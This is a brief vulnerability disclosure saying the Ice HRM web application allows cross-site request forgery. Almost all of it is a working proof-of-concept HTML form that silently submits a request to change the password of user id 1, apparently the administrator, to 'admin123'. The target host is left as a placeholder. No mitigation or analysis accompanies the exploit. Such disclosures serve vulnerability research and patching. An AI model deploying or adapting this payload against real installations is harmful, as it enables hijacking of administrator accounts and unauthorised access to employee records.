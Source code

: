 The Ice HRM web application is vulnerable to CSRF to change the password of an arbitrary user:

CSRF POC:
````
<html>

  <body>

  <script>history.pushState('', '', '/')</script>

    <form action="http://HOSTHERE/icehrm/app/service.php">

      <input type="hidden" name="t" value="User" />

      <input type="hidden" name="a" value="ca" />

      <input type="hidden" name="sa" value="changePassword" />

      <input type="hidden" name="mod" value="admin&#61;users" />

      <input type="hidden" name="req" value="&#123;&quot;id&quot;&#58;1&#44;&quot;pwd&quot;&#58;&quot;admin123&quot;&#125;" />

      <input type="submit" value="Submit request" />

    </form>

  </body>

</html>


````
